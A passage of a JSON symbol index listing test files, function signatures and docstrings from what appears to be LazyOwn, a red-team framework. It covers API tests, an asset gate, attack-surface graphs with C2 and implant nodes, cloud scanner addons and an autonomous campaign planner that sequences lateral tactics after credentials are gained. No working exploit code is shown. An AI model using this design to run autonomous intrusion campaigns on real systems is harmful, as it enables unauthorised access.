isolated sessions dir and campaign database, and a tenant API key. Covers health, targets, results, campaigns, and webhook CRUD plus auth enforcement.", "id": "tests/test_api_v1.py", "kind": "module", "label": "test_api_v1.py", "language": "py", "sha256": "2ab299921140c1d0", "symbol_count": 13, "symbols": [{"doc": "Flask test client with isolated sessions dir, db, and API key.", "kind": "function", "line": 23, "name": "api_client", "signature": "def api_client(tmp_path)"}, {"kind": "function", "line": 40, "name": "_auth", "signature": "def _auth(token)"}, {"kind": "function", "line": 44, "name": "test_health_is_public", "signature": "def test_health_is_public(api_client)"}, {"kind": "function", "line": 51, "name": "test_targets_requires_auth", "signature": "def test_targets_requires_auth(api_client)"}, {"kind": "function", "line": 56, "name": "test_targets_empty_workspace", "signature": "def test_targets_empty_workspace(api_client)"}, {"kind": "function", "line": 64, "name": "test_targets_lists_hosts_with_services", "signature": "def test_targets_lists_hosts_with_services(api_client)"}, {"kind": "function", "line": 76, "name": "test_results_empty", "signature": "def test_results_empty(api_client)"}, {"kind": "function", "line": 82, "name": "test_results_per_client", "signature": "def test_results_per_client(api_client)"}, {"kind": "function", "line": 95, "name": "test_campaigns_empty_state", "signature": "def test_campaigns_empty_state(api_client)"}, {"kind": "function", "line": 101, "name": "test_campaigns_reads_state_files", "signature": "def test_campaigns_reads_state_files(api_client)"}, {"kind": "function", "line": 109, "name": "test_webhook_crud", "signature": "def test_webhook_crud(api_client)"}, {"kind": "function", "line": 126, "name": "test_webhook_rejects_bad_url", "signature": "def test_webhook_rejects_bad_url(api_client)"}, {"kind": "function", "line": 134, "name": "test_mutating_endpoints_require_auth", "signature": "def test_mutating_endpoints_require_auth(api_client)"}]}, {"doc": "Asset gate + un-nerfed outputs + IntelGraph CSP regression tests.", "id": "tests/test_asset_gate.py", "kind": "module", "label": "test_asset_gate.py", "language": "py", "sha256": "d8f87b9d71e123b6", "symbol_count": 16, "symbols": [{"doc": "Isolate the JSON stores so gate tests never touch sessions/.", "kind": "function", "line": 18, "name": "gate_env", "signature": "def gate_env(tmp_path, monkeypatch)"}, {"doc": "Exact hits only on equality; fuzzy hits on substring.", "kind": "function", "line": 25, "name": "test_gate_exact_and_fuzzy_match", "signature": "def test_gate_exact_and_fuzzy_match(gate_env)"}, {"doc": "CIDR rules contain member IPs only.", "kind": "function", "line": 36, "name": "test_gate_cidr_match", "signature": "def test_gate_cidr_match(gate_env)"}, {"doc": "A non-empty task allow-list denies everything outside it.", "kind": "function", "line": 43, "name": "test_gate_task_allow_is_closed_whitelist", "signature": "def test_gate_task_allow_is_closed_whitelist(gate_env)"}, {"doc": "Inserting a gated asset raises instead of polluting the graph.", "kind": "function", "line": 57, "name": "test_gate_blocks_asset_insert", "signature": "def test_gate_blocks_asset_insert(gate_env)"}, {"doc": "The lazy_gate verb exists with block/allow management.", "kind": "function", "line": 66, "name": "test_lazy_gate_surface", "signature": "def test_lazy_gate_surface()"}, {"doc": "Clearing drops the stream and reports the discarded count.", "kind": "function", "line": 75, "name": "test_traffic_clear", "signature": "def test_traffic_clear(gate_env)"}, {"doc": "IntelGraph must not depend on CDN scripts (CSP blocks unpkg).", "kind": "function", "line": 83, "name": "test_intel_template_uses_vendored_libs", "signature": "def test_intel_template_uses_vendored_libs()"}, {"doc": "Graph pages live inside the LazyOwn layout, engine untouched by Jinja.", "kind": "function", "line": 94, "name": "test_intel_template_embedded_in_lazyown_chrome", "signature": "def test_intel_template_embedded_in_lazyown_chrome()"}, {"doc": "force-graph consumes {nodes, links}; raw {nodes, edges} crashes tickFrame.", "kind": "function", "line": 106, "name": "test_intel_template_maps_edges_to_links", "signature": "def test_intel_template_maps_edges_to_links()"}, {"doc": "ReadMenator engine: glyphs, labels, halos, communities, drag, fit.", "kind": "function", "line": 114, "name": "test_intel_template_readmenator_grade", "signature": "def test_intel_template_readmenator_grade()"}, {"doc": "Every fused node joins a community with a stable family color.", "kind": "function", "line": 126, "name": "test_intel_nodes_carry_community", "signature": "def test_intel_nodes_carry_community()"}, {"doc": "Payload mirrors ForceGraphRenderer: type/file/layer/rank + hubs.", "kind": "function", "line": 136, "name": "test_intel_payload_readmenator_shape", "signature": "def test_intel_payload_readmenator_shape()"}, {"doc": "Unfolded view caps at 60 and reports truncation honestly.", "kind": "function", "line": 157, "name": "test_compact_unfolded_cap_and_flag", "signature": "def test_compact_unfolded_cap_and_flag(gate_env)"}, {"doc": "Overview indexes expandable digests and covered lineage.", "kind": "function", "line": 174, "name": "test_digest_overview_expandable", "signature": "def test_digest_overview_expandable(gate_env)"}, {"doc": "Hot view returns the full hot set beyond the page cap.", "kind": "function", "line": 194, "name": "test_hot_facts_never_truncated", "signature": "def test_hot_facts_never_truncated(gate_env)"}]}, {"doc": "Attack-surface 3D module: surface+intel fusion + embedded pages.", "id": "tests/test_attack_surface3d.py", "kind": "module", "label": "test_attack_surface3d.py", "language": "py", "sha256": "9e204091ca3e03e4", "symbol_count": 8, "symbols": [{"doc": "Minimal campaign: world model, implant log, objective, log mention.", "kind": "function", "line": 24, "name": "_fixture_sessions", "signature": "def _fixture_sessions(tmp_path)"}, {"doc": "C2, implant, host, service, finding, objective in one graph.", "kind": "function", "line": 47, "name": "test_attack_fuses_surface_and_intel", "signature": "def test_attack_fuses_surface_and_intel(tmp_path)"}, {"doc": "Every file node carries family/layer/rank/doc for the engine.", "kind": "function", "line": 59, "name": "test_attack_payload_readmenator_shape", "signature": "def test_attack_payload_readmenator_shape(tmp_path)"}, {"doc": "Bundle covers every file with circle angles and sphere points.", "kind": "function", "line": 72, "name": "test_attack_bundle_payload", "signature": "def test_attack_bundle_payload(tmp_path)"}, {"doc": "Exposure summary scores the host for the autonomous planner.", "kind": "function", "line": 93, "name": "test_attack_summary_feeds_loop", "signature": "def test_attack_summary_feeds_loop(tmp_path)"}, {"doc": "Attack pages live in LazyOwn chrome with fetch data + engine intact.", "kind": "function", "line": 109, "name": "test_attack_pages_embedded_and_wired", "signature": "def test_attack_pages_embedded_and_wired()"}, {"doc": "Intel dropdown links the new module; lazyc2 serves its routes.", "kind": "function", "line": 129, "name": "test_attack_menu_entry_and_routes", "signature": "def test_attack_menu_entry_and_routes()"}, {"doc": "Every new route sits behind the WEB session login + operator decoy.\n\nSession login (flask_login), never bare HTTP Basic: the browser shows\nthe login page and logout actually revokes access.", "kind": "function", "line": 144, "name": "test_new_endpoints_require_login_and_decoy", "signature": "def test_new_endpoints_require_login_and_decoy()"}]}, {"doc": "tests/test_attack_surface_addons.py  BDD: Validate cloud, supply-chain, and web attack-surface lazyaddons.  Scenarios: - Given a valid YAML addon, when loaded, it exposes required fields - Given required params, when payload.json has matching keys, the command template can be resolved - Given an install_path, it stays within the repo root - Given an enabled addon, its name matches the CLI verb convention  SDD: No hardcoded IPs, ports, or secrets in any addon definition.", "id": "tests/test_attack_surface_addons.py", "kind": "module", "label": "test_attack_surface_addons.py", "language": "py", "sha256": "7df1e5c67204f524", "symbol_count": 76, "symbols": [{"kind": "function", "line": 36, "name": "_load", "signature": "def _load(path)"}, {"kind": "function", "line": 41, "name": "_param_names", "signature": "def _param_names(addon)"}, {"kind": "function", "line": 45, "name": "_yaml_text", "signature": "def _yaml_text(path)"}, {"doc": "Return (name, doc_dict) parameters for every ADDON_FILES entry.", "kind": "function", "line": 54, "name": "_all_addon_data", "signature": "def _all_addon_data()"}, {"kind": "function", "line": 59, "name": "_loaded", "signature": "def _loaded(name)"}, {"doc": "Each YAML addon file must exist and be parseable.", "kind": "class", "line": 68, "name": "TestAddonExists", "signature": "class TestAddonExists"}, {"doc": "Every lazyaddon must declare the five mandatory top-level fields.", "kind": "class", "line": 88, "name": "TestRequiredFields", "signature": "class TestRequiredFields"}, {"doc": "The tool sub-section must contain the execution contract.", "kind": "class", "line": 118, "name": "TestToolSection", "signature": "class TestToolSection"}, {"doc": "Declared params must match what the execute_command template needs.", "kind": "class", "line": 151, "name": "TestParams", "signature": "class TestParams"}, {"doc": "Install paths must not escape the repo root via traversal sequences.", "kind": "class", "line": 180, "name": "TestPathSafety", "signature": "class TestPathSafety"}, {"doc": "SDD: No IP addresses, port literals, or credential patterns in YAML.", "kind": "class", "line": 207, "name": "TestNoHardcodedSecrets", "signature": "class TestNoHardcodedSecrets"}, {"doc": "execute_command must use {param} placeholders instead of hardcoded values.", "kind": "class", "line": 234, "name": "TestCommandTemplates", "signature": "class TestCommandTemplates"}, {"doc": "ScoutSuite is AWS-focused cloud auditing.", "kind": "class", "line": 251, "name": "TestScoutSuiteSpecific", "signature": "class TestScoutSuiteSpecific"}, {"doc": "Prowler is multi-cloud (AWS, Azure, GCP).", "kind": "class", "line": 273, "name": "TestProwlerSpecific", "signature": "class TestProwlerSpecific"}, {"doc": "CloudSploit scans cloud provider configurations for risks.", "kind": "class", "line": 294, "name": "TestCloudSploitSpecific", "signature": "class TestCloudSploitSpecific"}, {"doc": "Trivy scans containers, filesystems, and repos for vulnerabilities.", "kind": "class", "line": 309, "name": "TestTrivySpecific", "signature": "class TestTrivySpecific"}, {"doc": "Grype scans SBOMs and directories for known vulnerabilities.", "kind": "class", "line": 333, "name": "TestGrypeSpecific", "signature": "class TestGrypeSpecific"}, {"doc": "report_full is an in-repo addon that wraps report_generator.py.", "kind": "class", "line": 353, "name": "TestReportFullSpecific", "signature": "class TestReportFullSpecific"}, {"doc": "Fuzz edge cases: field types, boundary values, missing optional keys.", "kind": "class", "line": 384, "name": "TestFuzzAddonStructure", "signature": "class TestFuzzAddonStructure"}, {"doc": "Print a human-readable summary of all attack-surface addons for review.", "kind": "class", "line": 418, "name": "TestResultReview", "signature": "class TestResultReview"}, {"kind": "method", "line": 72, "name": "test_file_present", "signature": "def test_file_present(self, name, path)"}, {"kind": "method", "line": 76, "name": "test_yaml_parses", "signature": "def test_yaml_parses(self, name, path)"}, {"kind": "method", "line": 92, "name": "test_has_required_fields", "signature": "def test_has_required_fields(self, name, addon)"}, {"kind": "method", "line": 97, "name": "test_name_is_string", "signature": "def test_name_is_string(self, name, addon)"}, {"kind": "method", "line": 101, "name": "test_description_is_string", "signature": "def test_description_is_string(self, name, addon)"}, {"kind": "method", "line": 107, "name": "test_enabled_is_true", "signature": "def test_enabled_is_true(self, name, addon)"}, {"kind": "method", "line": 122, "name": "test_tool_is_dict", "signature": "def test_tool_is_dict(self, name, addon)"}, {"kind": "method", "line": 126, "name": "test_tool_required_keys", "signature": "def test_tool_required_keys(self, name, addon)"}, {"kind": "method", "line": 131, "name": "test_repo_url_ends_with_git", "signature": "def test_repo_url_ends_with_git(self, name, addon)"}, {"kind": "method", "line": 136, "name": "test_repo_url_is_https", "signature": "def test_repo_url_is_https(self, name, addon)"}, {"kind": "method", "line": 141, "name": "test_execute_command_is_string", "signature": "def test_execute_command_is_string(self, name, addon)"}, {"kind": "method", "line": 155, "name": "test_params_is_list_when_present", "signature": "def test_params_is_list_when_present(self, name, addon)"}, {"kind": "method", "line": 160, "name": "test_each_param_has_name", "signature": "def test_each_param_has_name(self, name, addon)"}, {"kind": "method", "line": 165, "name": "test_each_param_has_description", "signature": "def test_each_param_has_description(self, name, addon)"}, {"kind": "method", "line": 170, "name": "no_duplicate_param_names", "signature": "def no_duplicate_param_names(self, name, addon)"}, {"kind": "method", "line": 184, "name": "test_install_path_contained", "signature": "def test_install_path_contained(self, name, addon)"}, {"kind": "method", "line": 190, "name": "test_install_path_no_dot_dot_prefix", "signature": "def test_install_path_no_dot_dot_prefix(self, name, addon)"}, {"kind": "method", "line": 197, "name": "test_no_tilde_in_paths", "signature": "def test_no_tilde_in_paths(self, name, addon)"}, {"kind": "method", "line": 211, "name": "test_no_hardcoded_ip", "signature": "def test_no_hardcoded_ip(self, name, addon)"}, {"kind": "method", "line": 217, "name": "test_no_well_known_ports", "signature": "def test_no_well_known_ports(self, name, addon)"}, {"kind": "method", "line": 223, "name": "test_no_password_literals", "signature": "def test_no_password_literals(self, name, addon)"}, {"kind": "method", "line": 238, "name": "test_execute_has_at_least_one_placeholder", "signature": "def test_execute_has_at_least_one_placeholder(self, name, addon)"}, {"kind": "method", "line": 255, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 258, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 261, "name": "test_os_is_iaas", "signature": "def test_os_is_iaas(self, addon)"}, {"kind": "method", "line": 264, "name": "test_has_region_param", "signature": "def test_has_region_param(self, addon)"}, {"kind": "method", "line": 267, "name": "test_has_provider_param", "signature": "def test_has_provider_param(self, addon)"}, {"kind": "method", "line": 277, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 280, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 283, "name": "test_os_is_iaas", "signature": "def test_os_is_iaas(self, addon)"}, {"kind": "method", "line": 286, "name": "test_has_provider_param", "signature": "def test_has_provider_param(self, addon)"}, {"kind": "method", "line": 290, "name": "test_category_is_recon_or_scan", "signature": "def test_category_is_recon_or_scan(self, addon)"}, {"kind": "method", "line": 298, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 301, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 304, "name": "test_has_cloud_param", "signature": "def test_has_cloud_param(self, addon)"}, {"kind": "method", "line": 313, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 316, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 319, "name": "test_os_is_containers", "signature": "def test_os_is_containers(self, addon)"}, {"kind": "method", "line": 322, "name": "test_has_target_param", "signature": "def test_has_target_param(self, addon)"}, {"kind": "method", "line": 328, "name": "test_triggers_docker", "signature": "def test_triggers_docker(self, addon)"}, {"kind": "method", "line": 337, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 340, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 343, "name": "test_has_target_param", "signature": "def test_has_target_param(self, addon)"}, {"kind": "method", "line": 349, "name": "test_description_mentions_vulnerability", "signature": "def test_description_mentions_vulnerability(self, addon)"}, {"kind": "method", "line": 357, "name": "addon", "signature": "def addon(self)"}, {"kind": "method", "line": 360, "name": "test_name", "signature": "def test_name(self, addon)"}, {"kind": "method", "line": 363, "name": "test_category_is_reporting", "signature": "def test_category_is_reporting(self, addon)"}, {"kind": "method", "line": 366, "name": "test_install_path_is_dot", "signature": "def test_install_path_is_dot(self, addon)"}, {"kind": "method", "line": 371, "name": "test_execute_calls_report_generator", "signature": "def test_execute_calls_report_generator(self, addon)"}, {"kind": "method", "line": 375, "name": "test_repo_url_points_to_lazyown", "signature": "def test_repo_url_points_to_lazyown(self, addon)"}, {"kind": "method", "line": 388, "name": "test_name_no_spaces", "signature": "def test_name_no_spaces(self, name, addon)"}, {"kind": "method", "line": 392, "name": "test_name_lowercase", "signature": "def test_name_lowercase(self, name, addon)"}, {"kind": "method", "line": 396, "name": "test_category_falls_in_known_range", "signature": "def test_category_falls_in_known_range(self, name, addon)"}, {"kind": "method", "line": 402, "name": "test_trigger_is_list_when_present", "signature": "def test_trigger_is_list_when_present(self, name, addon)"}, {"kind": "method", "line": 407, "name": "test_os_is_known_value", "signature": "def test_os_is_known_value(self, name, addon)"}, {"doc": "Generate a review table (test always passes; read output for review).", "kind": "method", "line": 421, "name": "test_summary_table", "signature": "def test_summary_table(self)"}]}, {"doc": "Tests for cli.auto_crypto — automatic session data encryption.  Covers: - AutoCryptoConfig defaults and overrides - AutoCryptoEngine construction - Salt generation and key derivation - Encrypt/decrypt round-trip - is_encrypted detection - Graceful no-op when password provider returns None", "id": "tests/test_auto_crypto.py", "kind": "module", "label": "test_auto_crypto.py", "language": "py", "sha256": "0b7ceacf71a214fd", "symbol_count": 22, "symbols": [{"kind": "function", "line": 21, "name": "crypto_module", "signature": "def crypto_module()"}, {"kind": "function", "line": 28, "name": "tmp_sessions", "signature": "def tmp_sessions()"}, {"kind": "class", "line": 33, "name": "TestAutoCryptoConfig", "signature": "class TestAutoCryptoConfig"}, {"kind": "class", "line": 54, "name": "TestAutoCryptoEngine", "signature": "class TestAutoCryptoEngine"}, {"kind": "class", "line": 144, "name": "TestPasswordProvider", "signature": "class TestPasswordProvider"}, {"kind": "class", "line": 152, "name": "TestHasPassword", "signature": "class TestHasPassword"}, {"doc": "qa/exit/EOF encrypt before leaving; atexit is only the backup net.", "kind": "class", "line": 169, "name": "TestExitEncryptWiring", "signature": "class TestExitEncryptWiring"}, {"kind": "method", "line": 34, "name": "test_default_config", "signature": "def test_default_config(self, crypto_module)"}, {"kind": "method", "line": 42, "name": "test_custom_config", "signature": "def test_custom_config(self, crypto_module)"}, {"kind": "method", "line": 55, "name": "test_disabled_engine_is_noop", "signature": "def test_disabled_engine_is_noop(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 66, "name": "test_no_password_provider_returns_false", "signature": "def test_no_password_provider_returns_false(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 77, "name": "test_empty_directory_is_not_encrypted", "signature": "def test_empty_directory_is_not_encrypted(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 86, "name": "test_encrypt_decrypt_roundtrip", "signature": "def test_encrypt_decrypt_roundtrip(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 122, "name": "test_salt_is_persisted", "signature": "def test_salt_is_persisted(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 145, "name": "test_build_provider_returns_callable", "signature": "def test_build_provider_returns_callable(self)"}, {"kind": "method", "line": 153, "name": "test_false_without_provider", "signature": "def test_false_without_provider(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 158, "name": "test_true_with_provider", "signature": "def test_true_with_provider(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 163, "name": "test_false_when_provider_returns_empty", "signature": "def test_false_when_provider_returns_empty(self, crypto_module, tmp_sessions)"}, {"kind": "method", "line": 172, "name": "_stub_shell", "signature": "def _stub_shell(self, calls)"}, {"kind": "method", "line": 180, "name": "test_qa_encrypts_before_exit", "signature": "def test_qa_encrypts_before_exit(self, monkeypatch)"}, {"kind": "method", "line": 194, "name": "test_exit_encrypts_after_confirmation", "signature": "def test_exit_encrypts_after_confirmation(self, monkeypatch)"}, {"kind": "method", "line": 211, "name": "test_eof_encrypts_before_returning", "signature": "def test_eof_encrypts_before_returning(self, monkeypatch)"}]}, {"doc": "Auto-verb registry: loop-ready automation commands.", "id": "tests/test_auto_registry.py", "kind": "module", "label": "test_auto_registry.py", "language": "py", "sha256": "fce187550e346a77", "symbol_count": 20, "symbols": [{"doc": "Every auto_* shell verb is registered exactly once with metadata.", "kind": "function", "line": 28, "name": "test_registry_covers_auto_family", "signature": "def test_registry_covers_auto_family()"}, {"doc": "Target binds for target verbs; populate needs none.", "kind": "function", "line": 38, "name": "test_build_command_binds_target", "signature": "def test_build_command_binds_target()"}, {"doc": "Routing keys on the verb, never on trailing args.", "kind": "function", "line": 47, "name": "test_is_shell_verb_matches_first_token", "signature": "def test_is_shell_verb_matches_first_token()"}, {"doc": "Goal/finding text selects the right automation.", "kind": "function", "line": 55, "name": "test_verbs_for_matches_keywords", "signature": "def test_verbs_for_matches_keywords()"}, {"doc": "Proposed intents translate back into runnable shell lines.", "kind": "function", "line": 63, "name": "test_propose_and_translate_roundtrip", "signature": "def test_propose_and_translate_roundtrip()"}, {"doc": "Minimal shell double capturing onecmd input.", "kind": "class", "line": 73, "name": "_FakeShell", "signature": "class _FakeShell"}, {"doc": "Shell double that never returns.", "kind": "class", "line": 86, "name": "_HangingShell", "signature": "class _HangingShell"}, {"doc": "Loop executor runs the verb and returns its transcript.", "kind": "function", "line": 96, "name": "test_execute_shell_verb_captures_output", "signature": "def test_execute_shell_verb_captures_output()"}, {"doc": "Bash stays on bash: non-verbs never reach the shell.", "kind": "function", "line": 104, "name": "test_execute_shell_verb_rejects_non_verbs", "signature": "def test_execute_shell_verb_rejects_non_verbs()"}, {"doc": "A hanging automation reports TIMEOUT instead of wedging the loop.", "kind": "function", "line": 112, "name": "test_execute_shell_verb_timeout_never_hangs", "signature": "def test_execute_shell_verb_timeout_never_hangs()"}, {"doc": "Missing shell context degrades to a transcript, not an exception.", "kind": "function", "line": 118, "name": "test_execute_shell_verb_without_shell", "signature": "def test_execute_shell_verb_without_shell()"}, {"doc": "Unavailable verbs report the gap; unconstrained verbs stay ready.", "kind": "function", "line": 124, "name": "test_verb_gap_flags_missing_tooling", "signature": "def test_verb_gap_flags_missing_tooling(monkeypatch)"}, {"doc": "Only real standalone tools are checked against PATH.", "kind": "function", "line": 134, "name": "test_missing_binary_skips_builtins_paths_and_scripts", "signature": "def test_missing_binary_skips_builtins_paths_and_scripts(monkeypatch)"}, {"doc": "The planner never dispatches work this host cannot execute.", "kind": "function", "line": 144, "name": "test_propose_and_steps_skip_unavailable_verbs", "signature": "def test_propose_and_steps_skip_unavailable_verbs(monkeypatch)"}, {"doc": "Keyword matching falls through to the next verb when one is missing.", "kind": "function", "line": 154, "name": "test_steps_for_uses_next_available_keyword_verb", "signature": "def test_steps_for_uses_next_available_keyword_verb(monkeypatch)"}, {"doc": "BDD: operator cancellation kills registered streaming processes.", "kind": "function", "line": 160, "name": "test_cancel_running_commands_kills_streaming", "signature": "def test_cancel_running_commands_kills_streaming()"}, {"kind": "method", "line": 76, "name": "__init__", "signature": "def __init__(self, output)"}, {"doc": "Record the command and echo canned output.", "kind": "method", "line": 80, "name": "onecmd_plus_hooks", "signature": "def onecmd_plus_hooks(self, command)"}, {"doc": "Block forever to exercise the executor timeout.", "kind": "method", "line": 89, "name": "onecmd", "signature": "def onecmd(self, command)"}, {"kind": "function", "line": 169, "name": "_run", "signature": "def _run()"}]}, {"doc": "BDD scoped tests for integrated autonomous operations C04-C10.  Given the planner frontier, graph mirror, db-backed findings, pool, notifier, side questions and updater, when I exercise their verbs against the existing campaign flows, then the criteria hold.", "id": "tests/test_autonomous_ops.py", "kind": "module", "label": "test_autonomous_ops.py", "language": "py", "sha256": "5d7eb8ccf202ae0b", "symbol_count": 17, "symbols": [{"doc": "BDD: assets deduplicate and anchors resolve both ways.", "kind": "function", "line": 11, "name": "test_c04_dedup_anchor_coverage", "signature": "def test_c04_dedup_anchor_coverage()"}, {"doc": "BDD: graph assets land in the campaign database and world model.", "kind": "function", "line": 26, "name": "test_c04_mirror_to_campaign_db", "signature": "def test_c04_mirror_to_campaign_db(tmp_path)"}, {"doc": "BDD: planner frontier emits untried intents, then nothing new.", "kind": "function", "line": 43, "name": "test_c05_frontier_emits_once_then_empty", "signature": "def test_c05_frontier_emits_once_then_empty()"}, {"doc": "BDD: lateral tactics wait for the credential chain step.", "kind": "function", "line": 58, "name": "test_c05_todo_blocks_lateral_until_creds", "signature": "def test_c05_todo_blocks_lateral_until_creds()"}, {"doc": "BDD: findings live in db vulns with status markers and retests.", "kind": "function", "line": 70, "name": "test_c06_finding_lifecycle_on_campaign_db", "signature": "def test_c06_finding_lifecycle_on_campaign_db(tmp_path)"}, {"doc": "BDD: dead head falls through, exhausted chain raises.", "kind": "function", "line": 98, "name": "test_c07_pool_failover_and_exhaustion", "signature": "def test_c07_pool_failover_and_exhaustion()"}, {"doc": "BDD: severity gate drops noise and secrets are masked.", "kind": "function", "line": 116, "name": "test_c08_notify_filter_and_redact", "signature": "def test_c08_notify_filter_and_redact()"}, {"doc": "BDD: side questions need snapshots and never mutate main state.", "kind": "function", "line": 128, "name": "test_c09_side_question_isolated", "signature": "def test_c09_side_question_isolated()"}, {"doc": "BDD: bad checksum aborts without touching the live binary.", "kind": "function", "line": 143, "name": "test_c10_verify_rejects_bad_checksum", "signature": "def test_c10_verify_rejects_bad_checksum(tmp_path)"}, {"doc": "BDD: rollback restores the previous binary.", "kind": "function", "line": 159, "name": "test_c10_rollback_restores_previous", "signature": "def test_c10_rollback_restores_previous(tmp_path)"}, {"doc": "BDD: breaker state is process-wide, not reset per pool build.", "kind": "function", "line": 171, "name": "test_i2_shared_registry_survives_rebuilds", "signature": "def test_i2_shared_registry_survives_rebuilds()"}, {"doc": "BDD: quota/auth errors trip immediately without waiting for count.", "kind": "function", "line": 186, "name": "test_i2_pool_hard_trips_on_auth_errors", "signature": "def test_i2_pool_hard_trips_on_auth_errors()"}, {"doc": "BDD: retest output maps onto reproducible / fixed / inconclusive.", "kind": "function", "line": 194, "name": "test_i3_classify_retest_verdicts", "signature": "def test_i3_classify_retest_verdicts()"}, {"doc": "BDD: resolving a retest bumps the optimistic evidence version.", "kind": "function", "line": 203, "name": "test_i3_retest_bumps_evidence_version", "signature": "def test_i3_retest_bumps_evidence_version(tmp_path)"}, {"doc": "BDD: one process-wide enrich engine; cooldown dedups targets.", "kind": "function", "line": 224, "name": "test_i4_shared_engine_cooldown", "signature": "def test_i4_shared_engine_cooldown()"}, {"doc": "BDD: fresh scan artefacts suppress rescans.", "kind": "function", "line": 232, "name": "test_i4_should_rescan_honours_fresh_scans", "signature": "def test_i4_should_rescan_honours_fresh_scans(tmp_path)"}, {"kind": "function", "line": 101, "name": "boom", "signature": "def boom(_prompt)"}]}, {"doc": "Tests for ``skills/autonomous_replay.py``.  The replay layer must:  * Parse ``autonomous_events.jsonl`` and ignore malformed lines. * Slice the event stream inclusively by event id. * Trace a STEP_START sequence without re-executing commands. * Surface a divergence when the recorded ``decision_seed`` does not match the recomputed one (introduced by ``compute_decision_seed`` in ``skills/autonomous_daemon.py``). * Execute commands through an injected runner without depending on the daemon module.", "id": "tests/test_autonomous_replay.py", "kind": "module", "label": "test_autonomous_replay.py", "language": "py", "sha256": "5483fd69a34438a9", "symbol_count": 18, "symbols": [{"kind": "function", "line": 40, "name": "_event", "signature": "def _event(event_id, objective_id, step, command, source, seed_override)"}, {"kind": "function", "line": 65, "name": "_write_jsonl", "signature": "def _write_jsonl(path, events)"}, {"doc": "A missing file must yield an empty list, not raise.", "kind": "function", "line": 71, "name": "test_event_log_reader_returns_empty_when_missing", "signature": "def test_event_log_reader_returns_empty_when_missing(tmp_path)"}, {"doc": "Truncated or invalid JSON lines are skipped silently.", "kind": "function", "line": 78, "name": "test_event_log_reader_skips_malformed_lines", "signature": "def test_event_log_reader_skips_malformed_lines(tmp_path)"}, {"doc": "Bounds match recorded ids and are returned inclusively.", "kind": "function", "line": 96, "name": "test_slice_is_inclusive_on_both_bounds", "signature": "def test_slice_is_inclusive_on_both_bounds(tmp_path)"}, {"doc": "Trace mode lists each STEP_START in order with no divergences.", "kind": "function", "line": 112, "name": "test_trace_returns_one_step_per_event", "signature": "def test_trace_returns_one_step_per_event(tmp_path)"}, {"doc": "A bad recorded seed produces exactly one divergence entry.", "kind": "function", "line": 131, "name": "test_trace_detects_decision_seed_divergence", "signature": "def test_trace_detects_decision_seed_divergence(tmp_path)"}, {"doc": "Execute mode delegates to the supplied runner and captures output.", "kind": "function", "line": 149, "name": "test_execute_runs_commands_through_injected_runner", "signature": "def test_execute_runs_commands_through_injected_runner(tmp_path)"}, {"doc": "A runner that returns an error-like string flips success to False.", "kind": "function", "line": 179, "name": "test_execute_marks_runner_errors_as_failure", "signature": "def test_execute_marks_runner_errors_as_failure(tmp_path)"}, {"doc": "The top-level ``replay`` helper returns a JSON-serialisable dict.", "kind": "function", "line": 195, "name": "test_replay_convenience_returns_dict", "signature": "def test_replay_convenience_returns_dict(tmp_path)"}, {"doc": "An unsupported mode raises ``ValueError``.", "kind": "function", "line": 206, "name": "test_replay_rejects_unknown_mode", "signature": "def test_replay_rejects_unknown_mode(tmp_path)"}, {"doc": "The constant exposes both valid modes for external validators.", "kind": "function", "line": 215, "name": "test_supported_modes_constant", "signature": "def test_supported_modes_constant()"}, {"doc": "Events with no ``command`` field are dropped from the trace.", "kind": "function", "line": 221, "name": "test_step_skips_events_without_command", "signature": "def test_step_skips_events_without_command(tmp_path)"}, {"kind": "class", "line": 161, "name": "_Runner", "signature": "class _Runner"}, {"kind": "class", "line": 185, "name": "_Runner", "signature": "class _Runner"}, {"kind": "method", "line": 162, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 165, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 186, "name": "run", "signature": "def run(self, command, timeout)"}]}, {"doc": "Unit tests for cli.autosuggest.  Coverage:  * Suggestion provider contract: composite arbitration, skip rules, defensive error handling. * Engine state machine: refresh, accept clears state, set_enabled toggling. * Display rendering: empty when no suggestion, ANSI delimiters around active suggestion, truncation honours :data:`GHOST_TEXT_LIMIT`. * Provider adapters: kill-chain adjacency and phase fallback, graph-advisor adapter blends scores.", "id": "tests/test_autosuggest.py", "kind": "module", "label": "test_autosuggest.py", "language": "py", "sha256": "a8282b12674971b9", "symbol_count": 41, "symbols": [{"doc": "Test double that always returns the same suggestion.", "kind": "class", "line": 42, "name": "_StaticProvider", "signature": "class _StaticProvider"}, {"doc": "Provider that always raises — composite must skip it.", "kind": "class", "line": 52, "name": "_RaisingProvider", "signature": "class _RaisingProvider"}, {"kind": "function", "line": 59, "name": "test_engine_refresh_stores_suggestion", "signature": "def test_engine_refresh_stores_suggestion()"}, {"kind": "function", "line": 69, "name": "test_engine_accept_returns_command_and_clears", "signature": "def test_engine_accept_returns_command_and_clears()"}, {"kind": "function", "line": 81, "name": "test_engine_disabled_clears_state_and_returns_none", "signature": "def test_engine_disabled_clears_state_and_returns_none()"}, {"kind": "function", "line": 93, "name": "test_engine_skip_commands_do_not_refresh", "signature": "def test_engine_skip_commands_do_not_refresh()"}, {"kind": "function", "line": 102, "name": "test_engine_display_text_empty_without_suggestion", "signature": "def test_engine_display_text_empty_without_suggestion()"}, {"kind": "function", "line": 108, "name": "test_engine_display_text_renders_active_suggestion", "signature": "def test_engine_display_text_renders_active_suggestion()"}, {"kind": "function", "line": 119, "name": "test_engine_display_text_truncates_long_command", "signature": "def 